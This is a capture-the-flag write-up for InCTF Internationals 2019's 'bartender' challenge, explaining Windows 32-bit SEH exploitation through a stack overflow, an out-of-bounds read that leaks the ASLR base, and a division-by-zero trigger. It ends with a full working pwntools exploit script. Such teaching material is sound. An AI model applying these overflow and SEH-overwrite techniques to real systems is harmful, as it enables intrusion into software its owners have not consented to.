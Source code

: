 ```yaml
---
title: bartender - InCTF Internationals 2019
tags: 
  - InCTFi
  - Windows
  - Exploitation
  - Write-up
categories:
  - Pwn
  - Windows
date: 2019-10-11 16:45:33
slidehtml: true
author: slashb4sh
author_url: https://twitter.com/slashb4sh
popular_posts: true
---
```

Writeup from InCTFi 2019 bartender

tl;dr Windows 32-bit SEH exploitation

<!--more-->

**Category:** Pwn
**Challenge Points:** 1000 
**Solves:** 1


The challenge is a 32-bit windows executable. This is a simple windows exploiation challenge based on the Structured Exception Handling. Download the files [here](https://gitlab.com/maheshhari/pwn/tree/master/InCTFi2019/bartender)

# Write-up

```
PS D:\Downloads\Win_BE\bartender> .\bartender.exe
Welcome!! Hope you have a good time
What would you like
        1. Make a drink
        2. Look at menu
        3. Change a drink
        4. Serve drinks
        5. Add an Ingredient
        6. Leave bar
Enter your choice :
```

A `setting.xml` was given with the handout
```xml
<?xml version="1.0" encoding="UTF-8"?>
<MitigationPolicy>
  <SystemConfig>
    <SEHOP Enable="false" TelemetryOnly="false" />
  </SystemConfig>
  <AppConfig Executable="C:\Users\Public\bartender\bartender.exe">
    <SEHOP Enable="false" TelemetryOnly="false" />
  </AppConfig>
</MitigationPolicy>
```
This file was given to inform that SEHOP was disabled in remote Windows server.

This is a menu driven program, you can create a drink, modify a drink and so on. The drinks and ingredients are stored as an global array.
```c
struct ingredient{
	char *name;
	DWORD key;
};

struct drink{
	char *name;
	DWORD value;
};

struct ingredient shelf[LEN];
struct drink *drinks[LEN];
```
When you make a drink, you get to add ingredients with a key that is a unique and prime number. The ingredient->key of all the ingredients you select are multiplied to from drink->value. Since the keys are prime numbers, the ingredients can be indentified by checking if the value is completely divisible by the key.

You can also see that a `catFlag` function is given to make exploitation easy.

##### Vulnerabilities
- `Stack Bufferoverflow` in the `add Ingredient` function.
- `Out of Bounds` read in `make drink` functionality.

##### Exploitaiton
First thing you would notice is the `stack bufferflow` that can be seen in the `add ingredient` option. You cannot exploit this bug by straightaway as stack cookies are enabled and also the main function doesn't return as it is an while loop that terminates only when `exit` is called. 

Also when you are overflowing, a stack buffer overrun error is returned in the `addIngredient` function call. This is because `strncpy_s` is used to copy name of the ingredient to heap.
```c
errno_t strncpy_s(
   char *strDest,
   size_t numberOfElements,
   const char *strSource,
   size_t count
);
```
`strncpy_s` checks if the len of the src is greater than the count. Check out the [docs for strncpy_s](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strncpy-s-strncpy-s-l-wcsncpy-s-wcsncpy-s-l-mbsncpy-s-mbsncpy-s-l?view=vs-2019) to know more.
To bypass this, all you have to do is put a `\x00` in your exploit, such that the the len of the src is less than count.
You are able to overwrite the SEH handler with this overflow now, but you still have to trigger an exception to redirect to execution flow to overwritten handler.

`/SAFESEH:NO` compiler flag is also enabled, you check this by looking for the `__safe_seh_table` which will not be present if safeSEH is disabled. If enabled, the last two bytes of the exception handlers in the exception chain are stored in the table, and validity is checked before a exception call.

There is a `division by zero` bug in the `change drink` functionality when you give 0 as an option when removing an ingredient. You can use this bug to trigger the overwritten exception handler.

Now all you have to do is overwrite the SEH handler with address of `catFlag`.
`ASLR` is enabled though. In Windows ASLR randomizes the image base everytime it is loaded into memory and this includes the executable image. You can use the .data section `out of bound` read vulnerability in the `make drink` functionality. The  index read from the user is not validated. When you select an ingredient the key of that indredient->key([ingredient+4]) is used to form the drink->value. Provide an index such that the address+4 points to a image address. This address gets multiplied with drink->value and hence the image leak is obtained.

Finally you can overwrite the SE handler with `catFlag` and trigger the exception to get the flag.

```python
from pwn import *

bin_path = "./bartender.exe"
s=process(bin_path)
#s=remote("34.207.98.167",1414)

def trigger():
    s.recvuntil("Enter your choice : ")
    s.sendline(str(3))
    s.recvuntil("Which drink do you want to change :")
    s.sendline(str(0))
    s.recvuntil("What change : ")
    s.sendline(str(2))
    s.recvuntil("Select the ingredients to remove : ")
    s.sendline(str(0))

def setup(exploit):
    s.recvuntil("Enter your choice : ")
    s.sendline(str(5))
    s.recvuntil("Enter the name of the ingredient :")
    s.send(exploit)
    s.recvuntil("Enter your choice : ")
    s.sendline(str(1))
    s.recvuntil("Enter Drink name : ")
    s.sendline("Rum N Cola ")
    s.recvuntil("Select the ingredients :")
    s.sendline(str(1))
    s.recvuntil("Select the ingredients :")
    s.sendline(str(99))

def leak_base():
    s.recvuntil("Enter your choice : ")
    s.sendline(str(1))
    s.recvuntil("Enter Drink name : ")
    s.sendline("base ")
    s.recvuntil("Select the ingredients : ")
    s.sendline(str(int("0xfffffdb5",16)))
    s.recvuntil("Current price = ")
    base = int(s.recvline())-8472
    log.info("base = " + hex(base))
    s.recvuntil("Select the ingredients :")
    s.sendline(str(99))
    return base


base=leak_base()
catFlag=base+4544
exploit = p32(0x42424242)*4 + "\x01" + "c"*0x4c + "d"*3 + p32(catFlag) + "a"*4
setup(exploit)
trigger()
s.interactive()
```
